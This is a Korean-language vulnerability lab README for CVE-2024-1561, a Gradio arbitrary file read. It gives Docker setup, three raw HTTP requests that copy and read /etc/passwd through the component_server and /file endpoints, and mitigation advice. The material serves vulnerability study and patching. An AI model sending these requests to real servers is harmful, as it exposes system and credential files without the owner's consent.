



# CVE-2024-1561

### Contributors
- 김원재([@wjae26](https://github.com/wjae26))

## Gradio Arbitrary File Read (CVE-2024-1561)
임의 파일 읽기(Arbitrary File Read) 및 부적절한 접근 제어(Improper Access Control)

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2024-1561/README.zh-cn.md)

Gradio는 사용자가 프런트엔드 코드를 작성하지 않고도 머신러닝 모델을 위한 웹 기반 인터페이스를 신속하게 구축할 수 있도록 해주는 파이썬 라이브러리입니다.

Gradio 4.13 이전 버전에서는 `component_server` 엔드포인트를 통해 공격자가 `Component` 클래스의 메서드를 임의로 호출할 수 있습니다. 공격자는 이 중 `move_resource_to_block_cache` 메서드를 악용하여 서버에 존재하는 임의의 파일을 임시 디렉터리로 복사한 뒤, 해당 파일의 내용을 조회할 수 있습니다. 이로 인해 임의 파일 읽기 취약점이 발생합니다.

참조:
  - [gradio-app/gradio#6884](https://github.com/gradio-app/gradio/pull/6884)
  - [https://github.com/advisories/GHSA-g9cj-cfpp-4g2x](https://github.com/advisories/GHSA-g9cj-cfpp-4g2x)

## 환경 설정(Environment Setup)
다음 명령어를 실행하여 Gradio 4.12.0으로 작성된 애플리케이션을 시작합니다.
<br>
```docker compose up -d```
<br>
환경이 시작되면 기본적으로 인증이 활성화되어 있지 않습니다. 다음 주소를 통해 애플리케이션에 접근할 수 있습니다.
```http://your-ip:7860```

## 대응(Vulnerability Reproduction)
먼저 `/config` 엔드포인트에 접근하여 컴포넌트의 `id` 값을 확인합니다. 예를 들어 `3`과 같은 값이 사용될 수 있습니다.
<br>
```
GET /config HTTP/1.1
Host: 127.0.0.1:7860


```



다음으로 `move_resource_to_block_cache` 메서드를 사용하여 `/etc/passwd` 파일을 임시 디렉터리로 복사합니다. 요청이 성공하면 응답에 임시 파일 경로가 포함됩니다.
```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```



마지막으로, 반환된 경로를 `/file` 엔드포인트에 전달하여 파일 내용을 조회합니다.
```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860


```


성공적으로 실행되면 `/etc/passwd` 파일의 내용이 출력되며, 이를 통해 임의 파일 읽기 취약점이 재현되었음을 확인할 수 있습니다.

## 환경종료
Docker compose 서비스를 종료하고, 리터를 삭제합니다.
```
docker compose down
```

## 대응 방안
- Gradio를 4.13.0 이상 또는 최신 안정 버전으로 업데이트해야 합니다.
- Gradio 애플리케이션을 인증 없이 외부에 공개하지 않아야 합니다.
- 컨테이너 내부나 서버 파일 시스템에 API Key, Access Token, 인증 정보와 같은 민감 정보를 평문으로 저장하지 않아야 합니다.
